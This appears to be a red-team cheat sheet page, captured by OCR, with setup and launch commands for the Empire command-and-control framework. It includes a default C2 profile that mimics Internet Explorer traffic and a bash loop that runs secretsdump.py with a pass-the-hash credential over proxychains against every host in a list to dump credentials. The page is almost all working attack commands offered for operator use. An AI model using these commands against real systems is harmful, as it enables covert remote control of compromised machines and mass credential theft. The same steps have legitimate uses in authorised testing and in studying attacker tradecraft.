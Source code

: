 Clone GIT Repo
```
    root@workstation:~# git clone https://github.com/adaptivethreat/Empire.git empire
    Cloning into 'empire'...
```

Install Empire
``` 
    root@workstation:~# cd empire/
    root@workstation:~/empire# cd setup/
    root@workstation:~/empire/setup# ./install.sh
    Reading package lists... Done
    Building dependency tree
    Reading state information... Done
    ...

    Successfully installed pydispatcher
    Cleaning up...

     [>] Enter server negotiation password, enter for random generation:

     [*] Database setup completed!

    root@workstation:~/empire/setup#
```

Start Empire
```
    root@workstation:~/empire/setup# cd ..
    root@workstation:~/empire# ./empire
```

Start with REST API for use with Empire Web
```
    ./empire --headless --username admin --password <PASSWORD> --restport 1337

    ./empire --rest --username admin --password <PASSWORD> --restport 1337
```

#### C2 Profiles

Edit default client settings in `/setup/setup_database.py`

Example Default Profile
```
    "/CWoNaJLBo/VTNeWw11212/|Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)|Accept:image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*|Accept-Language:en-en"
```

## Linux

### BASH

BASH loop example
```
    for u in `cat hosts.txt`; do
        echo -n "[*] user: $u" && \
        proxychains python /usr/local/bin/secretsdump.py domain/username@$u -hashes aad3b435b51404eeaad3b435b51404ee:0e493911f561a425e7a905329f4454bf |tee user_brute.log
    done
```
